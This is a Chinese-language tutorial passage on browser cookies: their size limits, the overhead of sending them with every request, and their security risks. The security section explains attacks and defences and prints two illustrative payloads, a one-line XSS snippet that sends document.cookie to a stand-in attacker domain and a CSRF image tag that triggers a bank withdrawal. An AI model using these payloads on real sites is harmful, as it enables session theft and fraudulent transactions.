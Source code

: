 ![cookie1](关于浏览器存储/cookie.png)

### 4.Cookie 的缺陷

- Cookie 不够大
  Cookie 的大小限制在 4KB 左右，对于复杂的存储需求来说是不够用的。当 Cookie 超过 4KB 时，它将面临被裁切的命运。这样看来，Cookie 只能用来存取少量的信息。此外很多浏览器对一个站点的 cookie 个数也是有限制的。
  这里需注意：各浏览器的 cookie **每一个 name=value 的 value 值大概在 4k**，所以 4k 并不是一个域名下所有的 cookie 共享的,而是一个 name 的大小。

- 过多的 Cookie 会带来巨大的性能浪费
  Cookie 是紧跟域名的。**同一个域名下的所有请求，都会携带 Cookie**。大家试想，如果我们此刻仅仅是请求一张图片或者一个 CSS 文件，我们也要携带一个 Cookie 跑来跑去（关键是 Cookie 里存储的信息并不需要），这是一件多么劳民伤财的事情。Cookie 虽然小，请求却可以有很多，随着请求的叠加，这样的不必要的 Cookie 带来的开销将是无法想象的。
  cookie 是用来维护用户信息的，而域名(domain)下所有请求都会携带 cookie，但对于静态文件的请求，携带 cookie 信息根本没有用，此时可以通过 cdn（存储静态文件的）的域名和主站的域名分开来解决。

- 安全问题
  由于在 HTTP 请求中的 Cookie 是明文传递的，所以安全性成问题，除非用 HTTPS。

### 5.Cookie 与安全

**tips:** 当机器处于不安全环境时，切记不能通过 HTTP Cookie 存储、传输敏感信息

- 会话劫持和跨站脚本攻击（XSS）
  在 Web 应用中，Cookie 常用来标记用户或授权会话。因此，如果 Web 应用的 Cookie 被窃取，可能导致授权用户的会话受到攻击。常用的窃取 Cookie 的方法有利用社会工程学攻击和利用应用程序漏洞进行 XSS 攻击。

```
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

- 跨站请求伪造（CSRF）
  比如在不安全聊天室或论坛上的一张图片，当你访问这张图片，它实际上是一个给你银行服务器发送提现的请求：
  当你打开含有了这张图片的 HTML 页面时，如果你之前已经登录了你的银行帐号并且 Cookie 仍然有效（还没有其它验证步骤），你银行里的钱很可能会被自动转走。

```
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```

有一些方法可以阻止此类事件的发生：

- 对用户输入进行过滤来阻止 XSS；
- 任何敏感操作都需要确认；
- 用于敏感信息的 Cookie 只能拥有较短的生命周期；
